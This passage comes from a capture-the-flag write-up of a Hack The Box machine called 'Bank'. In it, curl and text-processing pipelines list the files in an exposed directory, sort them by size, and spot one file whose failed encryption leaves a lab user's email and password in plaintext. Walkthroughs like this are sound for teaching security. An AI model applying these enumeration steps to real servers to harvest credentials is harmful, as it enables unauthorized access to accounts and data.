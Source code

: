 

If I sort that by size (`-k2` says sort based on the second column, and
`-n` is numeric sort), something jumps out:



    root@kali# curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | grep -Eo '[a-f0-9]{32}\.acc.*"right">.+ ' | cut -d'>' -f1,7 | tr '">' ' ' | sort -k2 -n | head
    68576f20e9732f1b2edc4df5b8533230.acc  257 
    09ed7588d1cd47ffca297cc7dac22c52.acc  581 
    941e55bed0cb8052e7015e7133a5b9c7.acc  581 
    052a101eac01ccbf5120996cdc60e76d.acc  582 
    0d64f03e84187359907569a43c83bddc.acc  582 
    10805eead8596309e32a6bfe102f7b2c.acc  582 
    20fd5f9690efca3dc465097376b31dd6.acc  582 
    346bf50f208571cd9d4c4ec7f8d0b4df.acc  582 
    70b43acf0a3e285c423ee9267acaebb2.acc  582 
    780a84585b62356360a9495d9ff3a485.acc  582 



257 is a much smaller size. If I look at all the sizes in a histogram, I
can see all of the other files are between 581 and 585 bytes:



    root@kali# curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | grep -Eo '[a-f0-9]{32}\.acc.*"right">.+ ' | cut -d'>' -f1,7 | tr '">' ' ' | cut -d' ' -f3 | sort | uniq -c
          1 257
          2 581
         11 582
         97 583
        590 584
        298 585



I'll open that file, and it seems the encryption failed:



    root@kali# curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
    --ERR ENCRYPT FAILED
    +=================+
    | HTB Bank Report |
    +=================+

    ===UserAccount===
    Full Name: Christos Christopoulos
    Email: chris@bank.htb
    Password: !##HTBB4nkP4ssw0rd!##
    CreditCards: 5
    Transactions: 39
    Balance: 8842803 .
    ===UserAccount===



That leaves a plaintext email and password.
